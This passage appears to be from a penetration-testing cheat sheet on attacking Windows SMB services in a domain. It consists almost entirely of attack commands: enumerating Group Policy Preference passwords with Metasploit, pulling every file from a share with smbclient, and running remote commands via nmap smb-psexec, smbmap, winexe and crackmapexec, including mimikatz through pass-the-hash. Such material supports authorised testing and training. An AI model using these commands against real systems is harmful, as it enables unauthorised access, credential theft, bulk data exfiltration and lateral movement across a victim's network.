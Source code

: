 ```bash
#By using the credentials, the passwords registered in the Group Policy Preference in the domain the computer belongs to can be determined.
msf > use auxiliary/scanner/smb/smb_enum_gpp
```

### Files on the SMB share can be retrieved using credentials.

```bash
smbclient //10.10.x.x/SharedFolder -U 'secybr.local\\0xhav0c' 'Password123!' -p TargetPort
recurse ON
prompt OFF
mget *
```

### Access to the MS-RPC command line can be achieved using credentials.

```bash
rpcclient 10.10.x.x -U 'secybr.local\\0xhav0c'
```

### Command can be run by using username and password information (in systems where local administrator authority can be obtained).

```bash
nmap -sV -p445 --script=smb-psexec.nse --script-args=smbuser=Username.list,smbpass=Password.list 10.10.x.x
smbmap –host-file /FullPath/TargetIP.list -d secybr.local -u 0xhav0c -p 'Password123!' -x "net user"
winexe -U secybr.local\\0xhav0c%Password123! //10.10.x.x "net user"
crackmapexec smb 10.10.x.x -u Username -p Password -M mimikatz -o COMMAND=privilege::debug
crackmapexec smb 10.10.x.x -u Username -H '53f587baed383d5e8969457609f80sdfdsfdsfsda22a7e651:1b7951d1ee9e3363' -M mimikatz -o COMMAND=privilege::debug
```

![executing Mimikatz script from crackmapexec](/assets/img/pitcures/smb/smb11.png)
_executing Mimikatz script from crackmapexec_
